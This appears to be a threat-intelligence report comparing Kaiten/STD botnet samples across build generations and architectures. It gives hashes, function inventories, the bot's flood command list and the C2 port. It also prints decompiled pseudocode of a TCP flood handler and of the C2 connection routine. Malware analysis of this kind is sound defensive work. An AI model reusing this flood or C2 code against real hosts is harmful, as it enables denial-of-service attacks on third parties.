

# Kaiten/STD timeline — follow-ups from the `7b70…` vs `botnet` diff

Answers the three follow-ups left open in
[`mirai7_diff_7b70_vs_botnet.md`](mirai7_diff_7b70_vs_botnet.md). Two of the
three came back differently than expected; one is a straight correction to that
report.

| Short name | MD5 | Arch | Fns | First seen |
|---|---|---|---|---|
| **A** | `7b70aceca81d038bcf859ea5a28f9fd9` | MIPS:LE:32 | 213 | 2025-04-04 |
| **B** (`botnet`) | `5d2c1d7436d3a989a6c3c580fb547525` | SuperH4:LE:32 | 628 | 2026-02-09 |
| `cock` | `168036e68ea46fd5dd2be5f70e248d9d` | MIPS:BE:32 | 591 | 2026-02-09 |
| `net` | `282898fac2e6a88c4108e9751cfc8ce4` | MIPS:LE:32 | 596 | 2026-02-09 |

---

## 1. The timeline — two generations, not a gradient

> **Pivot** — `function/search?file_md5=&limit=2000` over all 174 files,
> intersected with the 59-name Kaiten malware vocabulary; then
> `bin_sim/diff?view=sankey` on each pair.

Ten files in `mirai7` carry ≥10 Kaiten malware symbols:

| File | Arch | Fns | First seen | Malware symbols |
|---|---|---|---|---|
| **A** `7b70…` | MIPS:LE:32 | 213 | **2025-04-04** | **37** |
| `botnet` (B) | SuperH4:LE:32 | 628 | 2026-02-09 | 59 |
| `cock` | MIPS:BE:32 | 591 | 2026-02-09 | 59 |
| `net` | MIPS:LE:32 | 596 | 2026-02-09 | 59 |
| `cracknet` | PowerPC:BE:32:e500 | 577 | 2026-02-09 | 59 |
| `dicknet` | ARM:LE:32:v8 | 638 | 2026-02-09 | 59 |
| `unet` | ARM:LE:32:v8 | 584 | 2026-02-09 | 59 |
| `fucknet` | x86:LE:32 | 596 | 2026-02-09 | 59 |
| `swatnet` | x86:LE:64 | 568 | 2026-02-09 | 59 |
| `m-p.s-l.dick` | MIPS:LE:32 | 570 | 2026-03-01 | 12 *(different bot, §4)* |

**The eight 2026-02-09 samples have identical malware symbol sets — all 59,
pairwise Jaccard 1.00, no exceptions.** They are one cross-compilation of one
source tree across eight architectures, uploaded in one batch. B is not "a later
generation than `cock`/`net`"; it is the SuperH4 output of the same `make` run.

So the `*net` set is not a timeline at all. There are exactly **two points**:

```
2025-04-04   A          37 malware fns    MIPS:LE only
2026-02-09   8 samples  59 malware fns    8 architectures
```

### Shared malware functions across time

Flow widths are function counts. Left column is A's 37 functions by role, all of
which survive into 2026-02 (§2 proves it at similarity 1.000); the `NEW` nodes
are the 22 functions that first appear in 2026-02; the right column is what the
2026-03 fork picked up.



| Generation | Bucket | n | Functions |
|---|---|---|---|
| 2025-04 | C2 transport | 9 | `initConnection` `connectTimeout` `recvLine` `sockprintf` `socket_connect` `getOurIP` `getHost` `getArch` `getPortz` |
| 2025-04 | dispatch + runtime | 5 | `processCmd` `main` `listFork` `trim` `fdgets` |
| 2025-04 | L3/L4 floods | 12 | `atcp` `ftcp` `rtcp` `audp` `astd` `SendUDP` `SendSTD` `SendSTDHEX` `SendSTD_HEX` `stdhexflood` `vseattack` `makevsepacket` |
| 2025-04 | packet crafting + RNG | 7 | `csum` `tcpcsum` `makeIPPacket` `rand_cmwc` `init_rand` `getRandomIP` `makeRandomStr` |
| 2025-04 | output helpers | 4 | `print` `printi` `prints` `printchar` |
| **NEW 2026-02** | L7 / CDN attacks | 6 | `SendCloudflare` `SendHTTPCloudflare` `SendHTTPHex` `sendHTTPtwo` `httpattack` `sendTLS` |
| **NEW 2026-02** | provider bypasses | 6 | `SendOVH_STORM` `HIPER_OVH` `SendDOMINATE` `sendHLD` `SendHOME1` `SendHOME2` |
| **NEW 2026-02** | L3/L4 floods | 4 | `DNSw` `UDPRAW` `xtdcustom` `senditbudAMP` |
| **NEW 2026-02** | competitor eviction | 2 | `competitiveKiller` `sendKILLALL` |
| **NEW 2026-02** | support | 4 | `Randhex` `realrand` `sendPkt` `sendnfo` |

Read across the diagram: **no flow terminates at 2025-04.** Nothing was dropped,
nothing was replaced. The 2026-02 build is the 2025-04 build plus 22 functions,
and the entire growth is in the two anti-mitigation buckets (12 of 22) plus the
competitor killer.

The 12 functions the 2026-03 fork takes are the reusable substrate, not the bot:
4 from C2 transport (`getArch`, `getHost`, `getOurIP`, `socket_connect`), 5 from
packet crafting (`csum`, `tcpcsum`, `makeIPPacket`, `makeRandomStr`,
`rand_cmwc`), 2 from runtime (`main`, `fdgets`) and 1 from the new support
bucket (`realrand`). That last one dates the fork: `realrand` does not exist in
the 2025-04 build, so `m-p.s-l.dick` was lifted from the **2026-02** source, not
from a common ancestor.

## 2. A ⊂ net, proven at similarity 1.000

> **Pivot** — `diff?md5_a=A&md5_b=net&table=matched|unique_to_a&limit=0`.
> Both MIPS:LE:32, so the score is on a real scale.

| Pair | Score | Matched | Unique A | Unique B | Usable? |
|---|---|---|---|---|---|
| A ↔ `net` | **0.485** | 209 | **4** | 387 | **yes** — same ISA |
| A ↔ `cock` | 0.481 | 202 | 11 | 389 | yes — MIPS BE↔LE |
| A ↔ B | 0.107 | 96 | 117 | 532 | no — MIPS↔SH4 |
| B ↔ `cock` | 0.220 | 268 | 360 | 323 | no — SH4↔MIPS |
| B ↔ `net` | 0.228 | 271 | 357 | 325 | no — SH4↔MIPS |
| `cock` ↔ `net` | 0.973 | 583 | 8 | 13 | yes — same ISA, both endians |

The four functions unique to A are `free`, `__stdio_seek`, `__uClibc_init`,
`raise` — **uClibc, not malware**. A contributes no code of its own at all.

Of A's 37 malware functions, **36 match at similarity exactly 1.000 with
identical BSim feature counts**:

```
ftcp 298/298   atcp 298/298   vseattack 248/248   audp 227/227   rtcp 223/223
SendUDP 182/182   print 145/145   recvLine 100/100   getOurIP 83/83
connectTimeout 77/77   csum 54/54   initConnection 46/46   listFork 45/45
astd 42/42   stdhexflood 42/42   SendSTD 40/40   socket_connect 35/35
rand_cmwc 32/32   makevsepacket 32/32   makeIPPacket 31/31   getPortz 28/28
fdgets 27/27   init_rand 25/25   makeRandomStr 19/19   sockprintf 18/18
tcpcsum 18/18   printchar 16/16   getRandomIP 10/10   getHost 7/7   getArch 2/2  …
```

The **only** function that changed between 2025-04 and 2026-02 is
`processCmd`: 967 → 2153 features, similarity 0.990. Not `main` (277 → 280,
0.997), not `sockprintf` (18 → 18, 1.000).

That is a sharper statement than the original report could make. §5 of that
report attributed `sockprintf` +316 % and `main` +78 % to the version change;
against the same-ISA sibling both are **flat**. Those deltas were SuperH4
decompilation artefacts, not code changes. The same applies to that report's
`main` "startup/persistence path" reading — nothing changed there.

**Corrected picture: one function was rewritten, 22 were added, none were
modified, nothing was removed.**

## 3. The command table — `cock`/`net` recover 29 commands, B only 13

> **Pivot** — `function/code` on `processCmd` per file, regex the joined token
> text for string literals.

| | A (2025-04) | B, SuperH4 | `cock`/`net`, MIPS |
|---|---|---|---|
| decompiled chars | 16 169 | 33 048 | 63 344 |
| literals recovered | 11 | 13 | **29** |

`cock` and `net` produce **character-identical** `processCmd` decompilations
(63 344 chars each) and the same 29 commands:

```
STD  TCP  UDP  VSE  STOP  DNS  HOLD  UDPRAW  RANDHEX  XTDV2  DOMINATE
OVH-STORM  OVH-PACKET  HIPER-OVH  NFO-COM  NFO-KTN  HOME-DOWN  CF-KILL
NULL-CF  HTTP-KO  HTTPS-KTN  HYDRA-KILL  KILLALLV3  R6-DROP  R6-LAG
CSGO  GTAV  TF2  "DOMINATE Flooding %s for %d seconds."
```

B's 13 literals are a strict subset of these. **B does not have a smaller
command table — the SuperH4 decompiler recovers less of it.** B carries all 59
malware symbols including `DNSw`, `SendDOMINATE`, `sendHLD`, `Randhex`,
`UDPRAW`, `xtdcustom`, `SendHOME1/2`, so the handlers for the "missing"
commands are demonstrably present.

This invalidates the "—" cells in §3 of the diff report. The real A → 2026
command delta, read off the MIPS build:

* **kept**: `STD`, `TCP`, `UDP`, `VSE`, `STOP`
* **dropped**: `STDHEX`, `XMAS`, `STOMP`, `CRUSH`
* **renamed**: `OVHKILL` → `OVH-STORM`/`OVH-PACKET`/`HIPER-OVH`, `NFODROP` → `NFO-COM`/`NFO-KTN`
* **new**: `DNS`, `HOLD`, `UDPRAW`, `RANDHEX`, `XTDV2`, `DOMINATE`, `HOME-DOWN`,
  `CF-KILL`, `NULL-CF`, `HTTP-KO`, `HTTPS-KTN`, `HYDRA-KILL`, `KILLALLV3`,
  `R6-DROP`, `R6-LAG`, `CSGO`, `GTAV`, `TF2`

The game-title commands (`CSGO`, `GTAV`, `TF2`, `R6-DROP`, `R6-LAG`) are new and
were invisible in the SuperH4 read. Combined with the CDN/L7 additions this is a
booter-panel feature list, not a research tool.

**Method rule this establishes:** when a build set spans architectures, pull the
command dispatcher from the *best-decompiling* member. String-literal recovery
varies by ISA backend by a factor of two, and the shortfall reads as absent
functionality.

## 4. `m-p.s-l.dick` — a Kaiten helper fork, not this family

MIPS:LE, 2026-03-01, 570 functions, scores 0.625 against `net`. It has **no**
`processCmd`, `initConnection` or `DNSw`. It shares only the 12 low-level
helpers (`csum`, `tcpcsum`, `makeIPPacket`, `makeRandomStr`, `rand_cmwc`,
`realrand`, `socket_connect`, `getOurIP`, `getHost`, `getArch`, `fdgets`,
`main`). Somebody lifted the packet-crafting layer into a different bot. It is
already tagged `family:kaiten-mc-fork`; the tag is right, and the 0.625 score
would have read as "same family" without the symbol check.

## 5. `DNSw` is an attack, not C2 infrastructure — the hypothesis was wrong

> **Pivot** — `function/code` on `DNSw` in `net`, then the `"DNS"` branch of
> `processCmd`.

The follow-up guessed DNS-based C2 resolution. It is not. `DNSw` is the handler
for the C2 command `DNS <target> <port> <secs>`:

```c
void DNSw(char *param_1, int param_2, int param_3) {
    __fd = socket(2,1,0);                       // AF_INET, SOCK_STREAM
    phVar2 = gethostbyname(param_1);            // param_1 = the *target*
    bcopy(*phVar2->h_addr_list, local_cc.sa_data + 2, phVar2->h_length);
    if (param_2 == 0) local_cc.sa_data._0_2_ = realrand(0xc000,0xffff);
    memcpy(auStack_3c, C.278.6738, 0x24);       // 9 format strings from .rodata
    do {
        __format = (char *)auStack_3c[rand() % 9];
        sprintf(acStack_bc, __format, rand()%0xff, rand()%0xff);
        send(__fd, acStack_bc, strlen(acStack_bc), 0);
        connect(__fd, &local_cc, 0x10);
        if (tVar1 + param_3 <= time(0)) { close(__fd); _exit(0); }
    } while(true);
}
```

`gethostbyname` resolves the **victim**, dispatched from `processCmd` under
`listFork()` like every other flood. It picks one of nine `sprintf` templates
(a 0x24-byte pointer table, 9 × 4), fills two random bytes, and sends. Ephemeral
destination port `0xc000–0xffff` when the operator passes 0.

The `send()`-before-`connect()` ordering means the first `send` on each new
socket goes nowhere — the author's bug — and the loop re-`connect`s an
already-connected TCP socket forever. Low-quality flood, no infrastructure
significance.

**Net effect on the diff report: `DNSw` belongs in the "attack" bucket of its §4,
not "Support". The C2 mechanism did not change between the two generations —
see §6.**

## 6. The C2 host — where it lives, and why the API cannot reach it

> **Pivot** — `function/code` on `initConnection` and `main` in each build,
> plus `file/search` `cc_ip`.

`initConnection` is 46 features and **similarity 1.000 between A and `net`** —
the C2 connection logic is unchanged across the ten months:

```c
bool initConnection(void) {
    if (mainCommSock != 0) { close(mainCommSock); mainCommSock = 0; }
    if (currentServer == 0) currentServer = 0; else currentServer = currentServer + 1;
    strcpy(acStack_214, (&commServer)[currentServer]);   // <-- the C2 list
    local_218 = 0x1b46;                                  // default port 6982
    if (strchr(acStack_214, ':') != NULL) {              // "host:port" override
        local_218 = atoi(strchr(acStack_214,':') + 1);
        *strchr(acStack_214,':') = '\0';
    }
    mainCommSock = socket(2,2,0);
    return connectTimeout(mainCommSock, acStack_214, local_218, 0x1e) == 0;
}
```

Recoverable facts:

* **Default C2 port 6982 (`0x1b46`) — identical in A and in `cock`.** Unchanged
  across generations, and a usable network-detection fingerprint. It is a
  literal in the code, so `function/code` reaches it.
* The C2 list is a `char *` array `commServer`, walked by an incrementing
  `currentServer` index — a **multi-server rotation**, retried every 5 s from
  `main`.
* Entries may be `host` or `host:port`; the `:` split means DNS names are
  supported, so the array is not necessarily IP literals.
* `getHost()` is `inet_addr()` only — no resolution logic of its own.

Not recoverable, and now confirmed dead-ended:

* `main` contains **zero string literals** and never references `commServer`.
  The array is statically initialised in `.data`; the pointers it holds point
  into `.rodata`.
* `cc_ip` is empty for all ten Kaiten files (the field is populated for other
  samples in the collection, so it is a per-file gap, not an unimplemented one).
* `function/code` only decompiles functions. Nothing in the API reads a data
  section, resolves a `DAT_`/`C.` symbol, or lists strings. The original
  statement stands and is now proven exhaustively: **the C2 host cannot be
  extracted through this API.** It needs Ghidra's listing of `.data`/`.rodata`,
  which lives server-side and is not exposed.

`sockprintf(mainCommSock, &DAT_00435a98, inet_ntoa(ourIP), getPortz(), getArch())`
in `main` is the check-in format string — also a `DAT_` reference into `.rodata`,
also unreachable. Recovering it would give the exact registration line the C2
sees, which is the highest-value remaining IOC.

## 7. Conclusions

1. **Two generations, ten months apart.** 2025-04 (A, MIPS:LE, 37 malware fns)
   and 2026-02 (eight architectures, 59 malware fns, one build). The `*net` set
   is a fan-out, not a progression.
2. **A is a strict subset of the 2026 build at similarity 1.000.** 36 of 37
   malware functions are unchanged. Exactly one function was rewritten
   (`processCmd`), 22 were added, zero modified, zero removed.
3. **The earlier report's "modified in place" section was wrong** on
   `sockprintf`, `main` and `print`. Those deltas were SuperH4 decompilation
   artefacts.
4. **Command table is 29 entries, not 13.** Read it off MIPS; SuperH4 loses more
   than half the literals. Five game-title commands were invisible before.
5. **`DNSw` is a flood handler**, not DNS C2 resolution. The C2 mechanism did not
   change at all — `initConnection` matches at 1.000.
6. **Port 6982 is the durable network fingerprint**; the host list is in `.data`
   and out of reach of the API.
